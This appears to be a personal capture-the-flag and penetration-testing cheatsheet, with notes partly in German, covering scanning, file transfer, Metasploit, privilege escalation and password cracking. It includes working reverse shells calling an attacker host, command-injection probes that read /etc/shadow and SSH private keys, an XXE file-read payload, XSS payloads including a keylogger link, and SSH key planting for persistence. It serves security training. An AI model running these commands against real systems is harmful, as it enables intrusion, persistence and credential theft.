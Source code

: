 # docs-ctf-cheatsheet
NMAP:
nmap -sC -sV -oA nmap/initial IPADRESS (standart)
nmap -p- -T5 -sC -sV -oA nmap/second IPADRESS (quick scan of all ports)

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
-p- : Enables scanning across all ports, not just the top 1000
-sC : Scan with default NSE scripts. Considered useful for discovery and safe
-sV : Attempts to determine the version of the service running on port
-oA [dir] all output to [dir]

NETCAT:
send data:
	reciever:
	nc -l -p 1234 > FILE.NAME       (sometimes netcat instead of nc!)
	sender:
	nc -w 3 DESTINATION 1234 < FILE.NAME

MSF:
search
	search …
send data
	upload /path/to/file
run exploit in background and enter the session
run -j
sessions
	sessions -i [session id]
get "normal" shell
	shell
move out of a session
	ctrl+z

HTTPSERVER:
send data:
	sender:
	python -m SimpleHTTPServer 8083
	reciever:
	curl IPADRESSSENDER:8083/FILE.NAME
	curl 10.10.14.145:8083/47502.py > hmm.py
	OR
	wget IPADRESSSENDER:8083/FILE.NAME

REVERSE SHELL:
1. setup listener on my machine:
nc -lvnp 8081
2. go to
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
and try them out on target machine
easiest rs : ;nc -e /bin/bash

INTERACTIVE SHELL:
target:
	export RHOST=<IPADRESSATTACKER>
attacker:
	nc -lp 14445
target:
	bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
attacker (now on targetshell):
	python -c 'import pty; pty.spawn("/bin/bash")'
	OR
	python3 -c 'import pty; pty.spawn("/bin/bash")'

COMMAND INJECTION
Linux
whoami
id
ifconfig/ip addr
uname -a
ps -ef
cat /etc/passwd
cat /etc/shadow
cat /home/USERNAME/.ssh/id_rsa
Windows
whoami
ver
ipconfig
tasklist
netstat -an

CHECK IF SOMETHING IS EXECUTED
attacker:
	sudo tcpdump ip proto \\icmp -i tun0
target:
	ping [local tun0 ip] -c 1

BROKEN AUTHENTICATION:
password guessing/bruteforce
weak session cookies
reregistration of existing user “ admin” (with space) and gain all rights of “admin”
1. try register as randomname
2. if “randomname has already been taken” try register with “ randomname” and see what happens

XML EXTERNAL ENTITY (XXE):
try :
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
and:
<!DOCTYPE replace [<!ENTITY name "success"> ]>
 <userInfo>
  <firstName>xxe</firstName>
  <lastName>&name;</lastName>
 </userInfo>

XSS PAYLOADS:
Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner
test <img src=x onerror=alert(2)>


POST EXPLOITATION WINDOWS:

Get-WmiObject -Class win32_OperatingSystem (Power Shell)
run post/windows/gather/checkvm (Metasploit) - check if vm
run post/multi/recon/local_exploit_suggester (Metasploit)
run post/windows/manage/enable_rdp (Metasploit)
ipconfig
try migrate spoolsv.exe
getuid
sysinfo
getprivs
run autoroute -s [SUBNET IP] -n 255.255.255.0



Enummeration Scripts:
Local:
LinEnum
LinPEAS
WinPEAS
Remote:
	enum4linux [OPTIONS] [IP] - works for windows and linux SMB SAMBA


SMBClient:
smbclient //[IP]/[DIRECTORY] -U [USERNAME]

NFS:
sudo mount -t nfs [IP]:[tragetdirectory] /tmp/mount/ -nolock

SUID:
find SUID : find / -perm -u=s -type f 2>/dev/null

Exploit /usr/bin/menu with SUID :
	cd /tmp
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu


DNS PROBLEM (for Hack The Box)
sudo nano /etc/hosts
add [IPADRESS] [DOMAIN], save and it should work!

SSH:
ssh-keygen -f [NAME]
	now i can write the [NAME].pub file content (exept for the last part with my USER@IP
and add “ssh-rsa “ before the key if not there) to the
/home/[USER]/.ssh/authorized_keys/
then ssh -i [NAME] [USER]@[IP]



PYTHON VIRTUAL ENVIRONMENT
	env init:
		python3 -m venv [NAME UMGEBUNG]
	env laden:
		source [NAME UMGEBUNG]/bin/activate
	packet installieren (in env):
		pip3 install [PACKET NAME]
	env exit:
		deactivate
	pip zeigt installierte packets:
		pip3 freeze

JAVA-VERSION ARCH LINUX
some programs run only with a certain jre, so you can use the following to set the default jre on your system:
sudo archlinux-java set java-8-openjdk/jre

TMUX:
	neue tmux session in gewünschter directory starten:
		tmux new -s [NAME]
	new  panel
CMD+B, c
rename panel
	CMD+B, ,
split panel vertical
	CMD+B, %
split panel horizontal
	CMD+B, “
navigate between panel
	CMD+B, pfeiltasten
resize panel
	CMD+B + pfeiltasten

GOBUSTER
./gobuster dir -u http://ADRESS/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
maybe mit +x php

MYSQL
mysql -u [USER] -p'[PASSWORD]'

HASHCAT (Windows)
.\hashcat.exe -a [ATTACKTYPE] -m [HASHTYPE] [PATHTOHASHES] [PATHTODICTIONARY] -r [PATHTORULE]
ATTACKTYPE : 0 for dictionary/dictionary-rule attack
HASHTYPE : tunnelsup.com/hash-analyzer/, hashcat.net/wiki/doku.php?id=example_hashes
PATHTORULE : \rules\best64.rule is good